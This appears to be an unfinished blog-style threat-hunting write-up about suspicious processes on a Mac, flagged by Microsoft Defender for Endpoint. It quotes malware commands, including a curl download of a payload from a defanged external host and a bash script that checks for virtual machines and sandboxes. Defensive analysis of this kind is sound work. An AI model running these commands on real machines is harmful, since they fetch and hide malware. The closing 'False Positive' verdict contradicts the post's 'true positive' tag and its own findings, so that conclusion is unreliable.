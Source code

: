 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```

{% include mermaid.liquid %}

Today we investigate some strange discovery actions by processes on a macbook

## The Alert
In the essence this alert was showing multiple different processes doing very similar discovery actions.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:
```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/FE8B53AE-FE86-4FF8-98E1-D7987304368D
```
apadecoded itself looks already strange enough and is also found on VT, but what is this "FE8B53AE-FE86-4FF8-98E1-D7987304368D"?

It seems like this executable toes a download of some additional code from external and extracts it to "/private/var/tmp/helpexecd/helpexecd"
```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```
And then it runs this helpexecd which amongst other things runs this bash script:
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```
Now this feels like malware trying to figure out if it's running in a sandbox, highly fishy!

## Hunting deeper

If we remember that apadecoded stuff, what's more interesting is, that there are many processes starting the exact same behaviour.
Here is a list of observed ones:
 * canonistical
 * noble
 * odontolite
 * intrinsicalness
 * TestDate
 * SysUpdater
 * leam
 * recommitment
 * TestDateDaemon
 * apadecode
 * apadecoded

<div class="mermaid">
flowchart TD;
    kernel_task[kernel_task];
    launchd[launchd];
    bash1[bash];
    xpcproxy[xpcproxy];
    syncservice[syncservice];
    bash2[bash];
    sh[sh];
    canonistical[canonistical];
    noble[noble];
    odontolite[odontolite];
    intrinsicalness[intrinsicalness];
    TestDate[TestDate];
    SysUpdater[SysUpdater];
    leam[leam];
    recommitment[recommitment];
    TestDateDaemon[TestDateDaemon];
    apadecode[apadecode];
    apadecoded[apadecoded];

    kernel_task --> launchd;
    launchd --> bash1;
    bash1 --> syncservice;
    syncservice --> sh;
    sh --> bash2;
    xpcproxy --> canonistical;
    xpcproxy --> noble;
    xpcproxy --> odontolite;
    xpcproxy --> intrinsicalness;
    xpcproxy --> TestDate;
    xpcproxy --> SysUpdater;
    xpcproxy --> leam;
    xpcproxy --> recommitment;
    xpcproxy --> TestDateDaemon;
    xpcproxy --> apadecode;
    xpcproxy --> apadecoded;
</div>


## Verdict

| Indicator                              | Thoughts                                                                                                            | Verdict |
|----------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------|
| CMD started by User                    | Either compromise of host, or legitimate action by user                                                             | -10%    |

**Verdict: False Positive**

## Next Steps


